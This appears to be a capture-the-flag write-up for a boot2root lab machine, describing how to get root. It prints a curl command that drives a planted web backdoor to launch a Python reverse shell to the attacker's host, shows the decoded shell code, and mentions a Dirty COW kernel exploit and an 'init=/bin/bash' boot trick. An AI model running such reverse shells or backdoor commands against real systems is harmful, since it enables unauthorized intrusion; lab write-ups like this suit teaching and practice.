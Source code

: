 # writeup 2

We have to do in the same way as in **writeup1** until using **curl** tool))

After doing that we have an incredible way to get the control of the root

**BACKDOOR**

A "backdoor" in the context of computing refers to a hidden method for bypassing normal authentication or security controls, it allows unauthorized access to systems, applications, or networks, often without being detected

Do not be scared, everything is done for educational purposes)

<img src="img/photo_5435923932709510476_y.jpg">

here is the encrepted code of it 

```
curl --insecure 'https://192.168.56.101/forum/templates_c/backdoor.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%2Cpty%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.56.1%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dpty.spawn%28%22%2Fbin%2Fbash%22%29%3B%27'
```

Don't be scared 2, this is just an url encode python code of this

```
import socket, subprocess, os, pty;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.56.1",1234));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=pty.spawn("/bin/bash");
```

You can simply write on your own code then just seach on Google **url encoder** and translate to this

We have done this to get a reverse shell and execute cmd on server,

So, now we need some kind of kernel exploit to have a root

On this picture you can see cmds and potential issues.

<img src="img/photo_5435923932709510484_y.jpg">

If you see exact same thing, Congratulations!!!🥳 you also got an error🆘😅
This shows that curl did not work properly -> to fix it do this

```
cat > dirty.c << end
# and we gonna copy code here
```


```
#{partition} init=/bin/bash,
live init=/bin/bash
```
And we get the following result

<img src="img/Pasted image 20240712012047.png">

By the way, it turns out that this method works almost on all linux systems currently, and the only way to protect from this is to simply encrypt the disk 🙂
